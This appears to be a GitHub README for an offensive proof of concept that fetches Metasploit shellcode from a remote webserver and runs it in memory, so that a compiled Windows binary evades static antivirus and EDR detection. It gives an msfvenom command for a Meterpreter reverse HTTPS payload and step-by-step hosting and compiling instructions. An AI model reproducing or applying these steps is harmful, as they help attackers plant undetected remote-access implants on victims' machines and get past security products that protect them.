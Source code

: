 # Create-Thread-Shellcode-Fetcher
Also if you use for example **syscalls (nativ APIs)** to execute C2-shellcode with a .exe, you often have the problem, that 
your **compiled .exe** gets **statically flagged by the AV/EPP/EDR**. Many times the reason for this is, that the **C2-shellcode** 
has to be directly **included as string or as a .bin ressource** in the c++ POC and by that the well known C2-shellcode 
(e.g. Metasploit-, CobaltStrike-, Empire Shellcode etc.) is statically flagged by the AV/EPP/EDR. 
This means, no matter which clever technique you would use to bypass prevention/detection in context of API-Hooking, Kernel Callback Function etc. 
your .exe POC will get flagged before you can ever execute it. Also if you want to **compile a c++ POC** in Visual Studio it isn't possible to **include stageless shellcode** in a char string, because the string is **limited in length** (always stay stageless if possible 😉). 

From my experience, depending on the AV/EPP/EDR it isn't often the most important thing to only care about how to bypass the dynamically prevention/detection of an AV/EPP/EDR. At least equally important is to care about how could I bypass the statically prevetion/detection, to maybe break the chain of a maybe following connected dynamicall or in-memory prevention/detection. 

**This POC gives you the possibility to compile a .exe to completely avoid statically detection by AV/EPP/EDR of your C2-shellcode and download and execute your C2-shellcode which is hosted on your (C2)-webserver.**

![image](https://user-images.githubusercontent.com/50073731/160274700-173f342f-1fd8-4080-8e78-d832129a99c6.png)

By that POC we have the advantage, that the shellcode for the C2 reverse shell isn't included as string or as .bin file in the POC.
Trough that, we don't have the problem of statically detection of the C2 shellcode by an AV/EPP/EDR, because the complete C2-shellcode is hosted 
on a webserver. 



**1. Creating stageless shellcode with MSF-Venom**

**kali>** msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.0.1 LPORT=443 -f c --arch x64 --platform windows -o /tmp/meterx64.c

![image](https://user-images.githubusercontent.com/50073731/160274011-82fd0f13-a52c-4f90-93bd-01d39a9872d9.png)



**2. Hosting file with MSF-stageless shellcode on webserver**

Based on the code in the c++ POC the hosted shellcode must be in HEX-Format. To bring the whole MSF-shellcode in one line, you can use the
the line operation function in Notpad++ join lines and then remove not spaces and the double quotes in the string. Only at the beginning and the end
we need from the HEX-shellcode string we need double quotes.

![image](https://user-images.githubusercontent.com/50073731/160274172-4a793332-db0d-465f-b6e9-aa3cf024c8a3.png)

![image](https://user-images.githubusercontent.com/50073731/160843980-56d60e17-de71-4505-a847-4fa1d3f51032.png)

![image](https://user-images.githubusercontent.com/50073731/160844266-8a9b2e0c-1bcb-4122-97aa-6eca529e9d46.png)

At the end you can save the file with the stageless MSF-shellcode as a file without any filetype ending, we call it for example **update** and then upload the MSF-Shellcode File on your webserver of choice. 

**3. Change the link in the c++ POC to your MSF-payload**
In this step we change the link in the POC to the link of the webserver on which we have hosted our stageless MSF-Shellcode and compile
it in **Visual Studio as Release x64**.

![image](https://user-images.githubusercontent.com/50073731/160274705-7c608ab1-1137-4f0f-8152-8a722de6a270.png)

**After compiling with VS you have a x64 Binary, which do not contain any C2-shellcode string or .bin file at all. After execution 
the C2-shellcode is downloaded and executed in the memory of the targeted host.** 
At the moment the execution of the shellcode by using Create Thread is done with WIN32 APIs.
But despite not using syscalls, the POC will do a nice job 😉.
